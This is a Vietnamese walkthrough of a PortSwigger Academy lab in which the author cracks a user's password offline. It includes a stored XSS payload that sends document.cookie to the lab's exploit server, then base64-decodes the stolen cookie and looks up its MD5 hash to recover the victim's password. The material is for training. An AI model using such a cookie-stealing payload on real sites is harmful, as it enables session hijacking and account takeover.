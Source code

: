 # WriteUp_PortSwigger

# Authentication

<h2>Lab: Offline password cracking</h2>
Đăng nhập vào lab bằng tài khoản cho trước: wiener:peter. Sau đó vào một post bất kì, comment vào bằng payload XSS <code><script>document.location='//exploit-ac071f2a1ef03225c0a90ac401b80031.web-security-academy.web-security-academy.net/'+document.cookie</script></code>
Sau đó truy cập vào server exploit do lab cung cấp sẵn, rồi vào accesslog, ta sẽ thấy:

![image](https://user-images.githubusercontent.com/44827139/158007468-4ff7a879-994f-44ce-beaf-6eeec9791335.png)

Focus vào request có chứa cookie <code>stay-loged-in</code>, ta lấy giá trị rồi decode base 64 thu được: <code>carlos:26323c16d5f4dabff3bb136f2460a943</code>
Sau đó tìm đoạn mã md5 (26323c16d5f4dabff3bb136f2460a943) trên google sẽ ra giá trị trc khi encode của nó là <code>onceuponatime</code>, đây chính là mật khẩu.
![image](https://user-images.githubusercontent.com/44827139/158007617-37e34eee-21b6-4f01-ba31-5ba930de4390.png)
Đăng nhập dùng username và password đã tìm được rồi xóa user là giải được lab.
